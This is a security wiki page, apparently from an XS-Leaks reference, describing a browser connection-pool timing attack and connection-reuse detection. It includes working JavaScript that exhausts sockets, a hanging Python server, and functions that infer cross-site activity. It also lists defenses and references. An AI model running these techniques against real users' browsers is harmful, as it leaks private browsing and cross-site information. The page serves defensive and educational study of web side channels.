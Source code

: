 +++
title = "Connection Pool"
description = ""
date = "2020-10-01"
category = "Attack"
abuse = [
    "Connection Pool",
    "Browser Limits",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
]
menu = "main"
+++

Another way to measure the network timing of a request consists of abusing the socket pool of a browser [^1]. Browsers use sockets to communicate with servers. As the operating system and the hardware it runs on have limited resources, browsers have to impose a limit.

To exploit the existence of this limit, attackers can:
1. Check what the limit of the browser is, for example 256 global sockets for TCP and 6000 global sockets for UDP. [^2][^7]
2. Block {{< katex>}}255{{< /katex >}} sockets for a long period of time by performing {{< katex>}}255{{< /katex >}} requests to different hosts that simply hang the connection
```javascript
// Client
for(let i=0; i<255; i++) fetch('https://'+i+'.example.com/', {mode: "no-cors", cache: "no-store"});
```
```python
# Server
from http.server import BaseHTTPRequestHandler, HTTPServer
import time

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        time.sleep(float(100000))
        self.send_response(200)
        self.send_header('Cache-Control', 'no-store')
        self.end_headers()

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```
4. Use the {{< katex>}}256^{th}{{< /katex >}} socket by performing a request to the target page.
5. Perform a {{< katex>}}257^{th}{{< /katex >}} request to another host. Since all the sockets are being used (in steps 2 and 3), this request must wait until the pool receives an available socket. This waiting period provides the attacker with the network timing of the {{< katex>}}256^{th}{{< /katex >}} socket, which belongs to the target page. This works because the {{< katex>}}255{{< /katex >}} sockets in step 2 are still blocked, so if the pool received an available socket, it was caused by the release of the socket in step 3. The time to release the {{< katex>}}256^{th}{{< /katex >}} socket is directly connected with the time taken to complete the request.
```javascript
performance.clearResourceTimings();
await fetch(location.href, {cache: "no-store"});
await new Promise(r => setTimeout(r, 1000));
let data = performance.getEntries().pop();
let type = (data.connectStart === data.startTime) ? 'reused' : 'new';
console.log('Time spent: ' + data.duration + ' on ' + type + ' connection.');
```

## Connection reuse
With HTTP/1.1 (TCP) and HTTP/2 (TCP) and HTTP/3 (UDP) requests may reuse an existing connection for a host to improve performance. [^3][^4]
Since a reused connection is normally faster this could allow for detecting if a site has connected to a host excluding anything that’s been cached and leaking information about the cross-site request by abusing Stream prioritization and HPACK compression. [^5]
Connections may get closed if there left idle or the sockets are exhausted, for example 256 connections for HTTP/2 or 30 seconds idle for HTTP/3. [^2][^6]
This may also leak when the connection happened and the browser can have per connection limits and on how many connections are allowed per host, for example 6 connections per host. [^2]
```javascript
// Detect if a HTTP/3 request was made to a certain host in the last 20 seconds.
await new Promise(r => setTimeout(r, 10000));

// Check for connection reuse for when theres a Timing-Allow-Origin header.
async function isConnected(url) {
    performance.clearResourceTimings();
    try {
        await fetch(url, {
            cache: "no-store",
            credentials: "include"
        });
    } catch {}
    await new Promise(r => setTimeout(r, 1000));
    let data = performance.getEntries().pop();
    // Allowed to read timing infomation.
    // Same-origin or the Timing-Allow-Origin header.
    console.log("Protocol: " + data.nextHopProtocol);
    return (data.connectStart === data.startTime);
}

// Check for connection reuse for when theres no Timing-Allow-Origin header.
async function isConnected2(url, http3 = false) {
    let max = (http3) ? 20 : 100;
    let start = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "POST",
            mode: "no-cors",
            credentials: "include"
        });
    } catch {}
    let duration = performance.now() - start;
    
    let start2 = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "POST",
            mode: "no-cors",
            credentials: "include"
        });
    } catch {}
    let duration2 = performance.now() - start2;
    return (duration - duration2 < max);
}

await isConnected2('https://example.com/404');
```

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) | [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}}) |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-------------------------------------------------------------------: |
|                                         ❌                                          |                          ❌                          |                                 ❌                                 |                                   ❌                                   |


{{< hint info >}}
Similar to [partitioned caches]({{< ref "../../defenses/secure-defaults/partitioned-cache.md" >}}), some browsers are considering to extend the principle of "split per site/origin" of resources to [socket pools](https://bugzilla.mozilla.org/show_bug.cgi?id=1572544).
{{< /hint >}}

## References

[^1]: Leak cross-window request timing by exhausting connection pool, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=843157)
[^2]: client_socket_pool_manager.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/socket/client_socket_pool_manager.cc)
[^3]: rfc9113 Connection Reuse, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.9.1.1)
[^4]: rfc9114 Connection Reuse, [link](https://httpwg.org/specs/rfc9114.html#rfc.section.3.3)
[^5]: rfc9113 Remote Timing Attacks, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.10.9)
[^6]: quic_context.h, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/quic/quic_context.h)
[^7]: features.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/base/features.cc)
